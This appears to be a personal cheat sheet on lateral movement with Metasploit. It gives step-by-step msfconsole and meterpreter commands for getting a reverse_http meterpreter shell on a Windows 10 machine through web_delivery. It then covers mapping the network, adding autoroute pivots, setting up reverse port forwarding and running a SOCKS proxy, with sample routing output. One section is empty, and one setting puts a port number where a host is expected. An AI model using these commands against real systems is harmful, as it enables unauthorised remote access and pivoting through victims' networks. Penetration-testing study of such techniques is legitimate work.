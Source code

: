 # lateral movement

### metasploit

get a shell on windows 10 machine. here is an example:

On Kali:

```bash
msf6 > search web_delivery
msf6 > use 1
msf6 exploit(multi/script/web_delivery) > options
...
msf6 exploit(multi/script/web_delivery) > set lhost eth0
msf6 exploit(multi/script/web_delivery) > set lport 1337
msf6 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/reverse_http
msf6 exploit(multi/script/web_delivery) > set target 2
msf6 exploit(multi/script/web_delivery) > exploit -j
```

On Windows:

```powershell
PS > <run whatever they tell you to run>
```

Back to Kali, enter session:

```bash
msf6 exploit(multi/script/web_delivery) > sessions
...
msf6 exploit(multi/script/web_delivery) > sessions -i 1
```

```bash
meterpreter > 
```

### basic network mapping using built-in windows commands

```
meterpreter > ipconfig
meterpreter > arp -a
```

### set up routes on metasploit

On msf5:

```bash
meterpreter > run autoroute -s <network-id/subnet>
```

```bash
meterpreter > run autoroute -p
```

```
IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.16.0       255.255.255.0      Session 1
```

On msf6:

```bash
meterpreter > run post/multi/manage/autoroute cmd=add SUBNET=<subnet> NETMASK=<netmask>
```

```bash
meterpreter > run post/multi/manage/autoroute cmd=add SUBNET=192.168.16.0 NETMASK=/24
```

```bash
meterpreter > run post/multi/manage/autoroute cmd=print
```

```
IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.16.0       255.255.255.0      Session 1
```

### more advanced network mapping

```
```



### reverse port forwarding

```bash
meterpreter > portfwd add -R -p <local-listening-port> -l <port-to-forward-to> -L <IP-to-forward-to>  
```

```bash
meterpreter > portfwd add -R -p 1234 -l 443 -L 192.168.3.28
```

Run proxy server on Kali:

```bash
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set srvhost 9050
msf6 auxiliary(server/socks_proxy) > set version 4a
msf6 auxiliary(server/socks_proxy) > exploit -j
```

